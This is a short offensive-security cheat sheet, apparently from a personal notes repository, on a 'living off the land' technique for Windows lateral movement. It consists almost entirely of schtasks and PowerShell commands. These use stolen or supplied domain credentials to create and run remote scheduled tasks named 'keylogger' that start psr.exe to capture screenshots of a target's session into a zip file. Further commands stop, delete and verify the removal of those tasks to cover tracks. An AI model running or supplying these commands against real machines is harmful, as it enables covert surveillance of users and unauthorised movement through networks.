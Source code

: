 # Living off the Land

Search Tag(s): #lateral-movement #schedule-task #windows

## 01 - Manual

TODO: Fill this info

## 02 - Use Cases

- Taking screenshots via **Living off the Land (LofL)**

```
C:\> net time \\<IP>

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock {Get-Date}

C:\> schtasks /create /tn "keylogger" /tr "C:\Windows\system32\psr.exe /start /gui 0 /output C:\path\to\file.zip" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

- Create schedule task to stop taking screenshots.

```
C:\> schtasks /create /tn "stop_keylogger" /tr "C:\Windows\system32\psr.exe /stop" /sc once /st 00:00 /it [/ru <DOMAIN>\<username>] [/rp <password>] /s <target_IP>

C:\> schtasks /run /tn "stop_keylogger" [/ru <DOMAIN>\<username>] [/rp <password>] /s <IP>
```

- Delete schedule tasks.

```
C:\> schtasks /delete /f /tn "keylogger" /s <IP>

C:\> schtasks /delete /f /tn "stop_keylogger" /s <IP>
```

- Confirm schedule tasks are removed.

```
C:\> schtasks /query /tn "keylogger" /fo List /v /s <IP>

C:\> schtasks /query /tn "stop_keylogger" /fo List /v /s <IP>
```

---
## References

- [Schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)